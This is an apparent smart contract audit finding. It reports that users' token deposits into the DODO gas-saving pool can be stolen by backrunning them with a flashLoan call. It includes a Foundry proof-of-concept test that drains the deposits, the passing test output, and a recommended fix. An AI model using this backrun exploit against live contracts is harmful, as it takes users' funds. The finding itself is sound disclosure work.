 Overt Onyx Newt

high

# User's deposited funds can be stolen by backrunning token transfers with a flashloan

## Summary

An attacker can backrun users deposits with a `flashLoan` call to steal their deposited funds.

## Vulnerability Detail

Before calling `buyShares`, as stated [here](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L26), a user must deposits base and quote token simply using an IERC20 transfer function.

```solidity
/// @dev User first transfer baseToken and quoteToken to GSP, then call buyShares
```

Consequently an attacker can backrun deposits with a `flashLoan` call to steal his deposited funds.

**Proof of concept**

In `GPSTrader.t.sol`:

```solidity
function test_flashloanBackRunningTransfer() public {
    address attacker = vm.addr(3);

    // transfer some tokens to USER
    vm.startPrank(DAI_WHALE);
    dai.transfer(USER, BASE_RESERVE + BASE_INPUT);
    vm.stopPrank();
    vm.startPrank(USDC_WHALE);
    usdc.transfer(USER, QUOTE_RESERVE + QUOTE_INPUT);
    vm.stopPrank();

    // User transfers before buys shares
    vm.startPrank(USER);
    dai.transfer(address(gsp), BASE_RESERVE);
    usdc.transfer(address(gsp), QUOTE_RESERVE);
    vm.stopPrank();

    // attacker backrunning transfers
    vm.startPrank(attacker);
    gsp.flashLoan(BASE_RESERVE, QUOTE_RESERVE, attacker, "");
    vm.stopPrank();

    // User tries buys shares
    vm.startPrank(USER);
    vm.expectRevert();
    gsp.buyShares(USER);
    vm.stopPrank();

    assert(dai.balanceOf(address(gsp)) == 0);
    assert(usdc.balanceOf(address(gsp)) == 0);
    assert(dai.balanceOf(attacker) == BASE_RESERVE);
    assert(usdc.balanceOf(attacker) == QUOTE_RESERVE);
}
```

Results:

```bash
forge test -vvv --fork-url $ETH_RPC_URL --match-test test_flashloanBackRunningTransfer
```

```bash
Running 1 test for test/GPSTrader.t.sol:TestGSPTrader
[PASS] test_flashloanBackRunningTransfer() (gas: 211566)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.12s

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact

A user can lost his deposited funds.

## Code Snippet

https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L25C1-L82

## Tool used

Manual Review

## Recommendation

Do transfers inside `buyShares` after requesting for token approvals.

In `GSPVault.sol` insert:

```solidity
function _transferBaseIn(address from, address to, uint256 amount) internal {
    if (amount > 0) {
        _BASE_TOKEN_.safeTransferFrom(from, to, amount);
    }
}

function _transferQuoteIn(address from, address to, uint256 amount) internal {
    if (amount > 0) {
        _QUOTE_TOKEN_.safeTransferFrom(from, to, amount);
    }
}
```

In `GSPFunding.sol` modify:

```solidity
function buyShares(
    address to,
    uint256 baseAmount,
    uint256 quoteAmount
)
    external
    nonReentrant
    returns (uint256 shares, uint256 baseInput, uint256 quoteInput)
{
    _transferBaseIn(to, address(this), baseAmount);
    _transferQuoteIn(to, address(this), quoteAmount);
```
